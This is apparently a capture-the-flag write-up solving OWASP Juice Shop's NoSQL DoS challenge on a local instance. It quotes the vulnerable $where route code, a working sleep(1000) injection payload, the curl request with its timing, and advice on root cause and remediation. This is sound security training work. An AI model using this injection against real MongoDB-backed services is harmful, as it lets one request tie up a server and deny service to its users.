




# NoSQL DoS

## Challenge Information

| Field             | Details                      |
| ----------------- | ---------------------------- |
| **Challenge**     | NoSQL DoS                    |
| **Category**      | Injection                    |
| **Difficulty**    | 4                            |
| **Challenge Key** | `noSqlCommandChallenge`      |
| **Target**        | OWASP Juice Shop             |
| **Endpoint**      | `/rest/products/:id/reviews` |

### Objective

Trigger a server-side delay through NoSQL injection and cause the challenge's execution-time condition to be satisfied.

The challenge is **not** solved by flooding the application with requests. Instead, a single crafted request manipulates the value used in a MongoDB `$where` expression.

---

## 1. Reconnaissance / Discovery

The challenge description provides several clues:

* It is a stripped-down Denial of Service attack.
* Juice Shop uses a MongoDB-derived NoSQL database.
* The challenge belongs to the **NoSQL Injection** category.
* Flooding the application with requests is specifically discouraged.
* The server should be made to "sleep" for some time.

These clues point toward finding a NoSQL injection point capable of introducing a deliberate delay.

### Searching the Source Code

The challenge key was searched for across the Juice Shop installation:

```bash
grep -Rni -C 10 -E "NoSQL.*DoS|NoSQL.*DOS|nosql.*dos|noSqlDos|DoS.*NoSQL" \
  /var/lib/juice-shop \
  2>/dev/null | head -300
```

The search revealed that the challenge is internally identified as:

```text
noSqlCommandChallenge
```

rather than `noSqlDosChallenge`.

The relevant route was found in:

```text
/var/lib/juice-shop/routes/showProductReviews.ts
```

### Vulnerable Route

The route handles product review requests:

```text
/rest/products/:id/reviews
```

The relevant source code constructs a MongoDB `$where` expression using the supplied `id` value:

```ts
const id = !utils.isChallengeEnabled(challenges.noSqlCommandChallenge)
  ? Number(req.params.id)
  : utils.trunc(req.params.id, 40)

const t0 = new Date().getTime()

db.reviewsCollection.find({
  $where: 'this.product == ' + id
}).then((reviews: Review[]) => {
  const t1 = new Date().getTime()

  challengeUtils.solveIf(
    challenges.noSqlCommandChallenge,
    () => {
      return (t1 - t0) > 2000
    }
  )
})
```



### Important Findings

The source reveals two important conditions:

1. The `id` parameter is incorporated directly into a `$where` expression.
2. The challenge is solved when the database query takes more than **2 seconds**.

This means the attack does not need to generate a large volume of traffic. The goal is to inject an expression that deliberately increases the execution time of one request.

---

## 2. Attack Surface

The relevant endpoint is:

```text
GET /rest/products/:id/reviews
```

The vulnerable input is:

```text
:id
```

Normally, the endpoint expects a product identifier such as:

```text
/rest/products/1/reviews
```

However, when the NoSQL DoS challenge is enabled, the supplied value is allowed to reach the `$where` expression after truncation.

The resulting database expression is conceptually:

```javascript
this.product == <user-controlled-value>
```

Because the value is inserted into executable `$where` content, an attacker can manipulate the expression rather than supplying only a numeric product ID.

---

## 3. Injection Payload

The project's own Cypress test for this challenge reveals the intended attack pattern:

```text
/rest/products/sleep(1000)/reviews
```

The relevant test uses:

```javascript
fetch(`${Cypress.config('baseUrl')}/rest/products/sleep(1000)/reviews`, {
  method: 'GET',
  headers: {
    'Content-type': 'text/plain'
  }
})
```

This demonstrates that the `id` parameter can contain a JavaScript expression rather than a normal numeric product ID.



### Why `sleep(1000)`?

The injected expression introduces a deliberate delay during evaluation.

The challenge's source code measures the elapsed time between the beginning and completion of the database query:

```text
t1 - t0
```

The challenge is solved when this value exceeds:

```text
2000 milliseconds
```

Therefore, the objective is to cause a measurable server-side delay rather than send many requests.

---

## 4. Validation

The payload was sent as a single controlled request:

```bash
time curl -i 'http://127.0.0.1:42000/rest/products/sleep(1000)/reviews' \
  -H 'Content-Type: text/plain'
```

The application returned a successful HTTP response:

```text
HTTP/1.1 200 OK
```

with:

```json
{"status":"success","data":[]}
```

The important observation was the elapsed time:

```text
real    28.04s
```



The response took significantly longer than the challenge's 2-second threshold.

This confirmed that the injected expression successfully introduced a server-side delay.

---

## 5. Challenge Verification

After the controlled request completed, the challenge state was checked through the Juice Shop API:

```bash
curl -s http://127.0.0.1:42000/api/Challenges \
  | jq -r '.data[] | select(.key=="noSqlCommandChallenge") | "\(.name) | solved=\(.solved)"'
```

Result:

```text
NoSQL DoS | solved=true
```



---

## 6. Exploitation Summary

The complete attack chain was:

```text
Identify challenge as NoSQL Injection
            ↓
Locate product review endpoint
            ↓
Inspect showProductReviews.ts
            ↓
Find user-controlled $where expression
            ↓
Identify execution-time challenge condition
            ↓
Inject sleep(1000)
            ↓
Database-side execution is delayed
            ↓
Request takes > 2 seconds
            ↓
Challenge solved
```

Only one crafted request was required.

---

## 7. Security Impact

A `$where` expression that incorporates attacker-controlled input can allow an attacker to execute unintended JavaScript expressions during database query evaluation.

In this challenge, the impact is demonstrated through deliberate execution delay.

In a real application, this type of vulnerability could potentially allow an attacker to:

* Consume server/database resources.
* Cause individual requests to take excessive amounts of time.
* Reduce application availability.
* Create a denial-of-service condition.
* Potentially expose additional attack paths depending on the database engine and available expression functionality.

The exact impact depends on the database implementation, configuration, available functions, and how the application constructs the query.

---

## 8. Root Cause

The primary root cause is **unsafe construction of a NoSQL `$where` expression using user-controlled input**.

The vulnerable pattern is:

```ts
$where: 'this.product == ' + id
```

The application treats the supplied `id` value as part of executable database-side JavaScript rather than strictly validating it as a product identifier.

Although the value is truncated, truncation does not make executable input safe.

A secure implementation should treat the product ID strictly as data and use a normal query operator rather than dynamically constructing executable `$where` code.

For example, the application could validate that the supplied identifier is a valid numeric ID and query the database using a structured equality condition.

---

## 9. Lessons Learned

### 1. Challenge clues can identify the vulnerability class

The challenge explicitly mentions NoSQL Injection and a server "sleeping." These clues strongly indicate that the intended attack involves manipulating database-side execution rather than flooding the HTTP endpoint.

### 2. Source-code analysis reveals the actual attack surface

The `/rest/products/:id/reviews` endpoint initially appears to accept only a product ID.

Source inspection showed that the value eventually becomes part of a `$where` expression, changing the security significance of the parameter.

### 3. `$where` deserves special attention

MongoDB-style `$where` functionality can evaluate JavaScript expressions. Constructing these expressions with untrusted input can therefore introduce injection vulnerabilities.

### 4. Denial of service does not always require traffic volume

This challenge demonstrates an important distinction:

```text
Traditional request flooding
        ≠
Application/database-level resource exhaustion
```

A single malicious request can sometimes consume disproportionate resources.

### 5. Timing can be security evidence

The measured:

```text
28.04 seconds
```

provided concrete evidence that the injected expression changed server-side execution behavior.

---

## 10. Conclusion

The NoSQL DoS challenge was solved by identifying the vulnerable product-review endpoint, tracing the `id` parameter into a MongoDB `$where` expression, and using a controlled `sleep(1000)` injection to introduce a server-side delay.

The request took **28.04 seconds**, exceeding the challenge's **2-second** execution-time threshold, and the Juice Shop API confirmed:

```text
NoSQL DoS | solved=true
```

The vulnerability demonstrates why user-controlled input should never be incorporated directly into executable NoSQL expressions.
